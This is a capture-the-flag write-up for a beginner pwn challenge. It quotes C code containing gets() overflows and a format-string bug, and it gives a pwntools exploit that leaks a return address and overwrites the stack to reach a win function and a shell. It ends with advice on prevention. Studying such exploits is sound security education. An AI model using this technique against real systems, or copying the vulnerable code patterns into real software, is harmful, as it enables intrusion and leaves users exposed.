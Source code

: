 # Intro to Pwning 1

## Information
Category: Pwn   
Difficulty: Baby   
Author: LiveOverflow   
First Blood: fipso   
Description: Service running at: hax1.allesctf.net:9100   


## Solution

Looking at the supplied source code gives us enough information to get a good idea what we are to exploit here. We need to somehow return into the function
WINgardium_leviosa().      
To do so, we have to override the return address of the current function frame on the stack. However, it is not as easy as it sounds as the binary is compiled with position  independant code enabled.

First, lets take a closer look at the code from a hacker perpective

In the main function, two functions are called whose potential exploitable characteristics are shown here:

### welcome():
```c
void welcome() {
    char read_buf[0xff];
    printf("Enter your witch name:\n");
    gets(read_buf);
    printf("┌───────────────────────┐\n");
    printf("│ You are a Hufflepuff! │\n");
    printf("└───────────────────────┘\n");
    printf(read_buf);
}
```
In this function we able to exploit a buffer overflow vulnerability and format string vulnerablity.
However, using the first excludes the latter in terms of usuability.

### AAAAAAAA():
```c
void AAAAAAAA() {
    char read_buf[0xff];
    
    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Hufflepuff!\n");
        _exit(0);
    }
}
```
Here, we can again give input over an insecure function and overflow the stack


So we need to get the base address of the binary first, which we can accomplish by exploiting a format string vulnerability in a printf() function.
This can leak various important refrences that exist in the upper stack frames, but we are only interested in some pointer into our binary image, so we
focus on the return pointers.

Next, knowing the correct binary offset, we can calculate the current address of WINgardium_leviosa() and take the next opportunity in the AAAAAAAAA() 
function to overwrite the return address of the current stack frame. 

To craft our local version of the exploit, we first import pwntools and launch the binary.   

```python
#!/usr/bin/python
from pwn import *

p = process("../resources/pwn1")
print("attached to process ")
```

We then leak a portion of the stack to get some return pointer to know the binarys location in memory. 
In this case I didnt actually calculate the base address of the binary, but went straight from knowing some address pointing into main() to 
calculating the address of WINgardium_leviosa()   

```python
fstring = "%p " * 64
p.recvuntil("Enter your witch name:\n")
p.sendline(fstring)
leak = p.recvuntil(" enter your magic spell:\n")
addr_arr = leak.split(" ")

print("some ret address in main stack frame: ")
print(addr_arr[43])

p_main = addr_arr[43]
p_win = int(p_main, 16) - 0x135 # const

p_ret_win = p_win + 0x36 # const
print("address of win: ")
print(hex(p_win))
print("address of win_ret")
print(hex(p_ret_win))

```

Knowing the address of WINgardium_leviosa(), we can now finally convieniently conduct our buffer overflow. 
We must not forget to include the "Expelliarmus" string in the beginning.   

```python
# create payload
s = "Expelliarmus\x00" # String
s += ((0xff - (len(s)+1))+ 2) * 'S' # Padding
s += 8 * 'B' # Base Ptr

r = p64(p_ret_win, endian='little')
a = p64(p_win, endian='little')
#raw_input("attach gdb")
p.sendline( s + r + a )
print("Payload:")
print(s + r + a)
p.interactive()
```

Replacing "process" with "remote" and its correct parameters, we can get a shell on the server and not just locally.

![](shell.png)


flag: CSCG{NOW_PRACTICE_MORE}

## Prevention 
A possible fix for this issue could include sanitizing user input before echoing it via printf(). Outdatad functions like
gets() should also be avoided. Furthermore, it can be advised that any critical program should be compiled without -fno-stack-protector. 

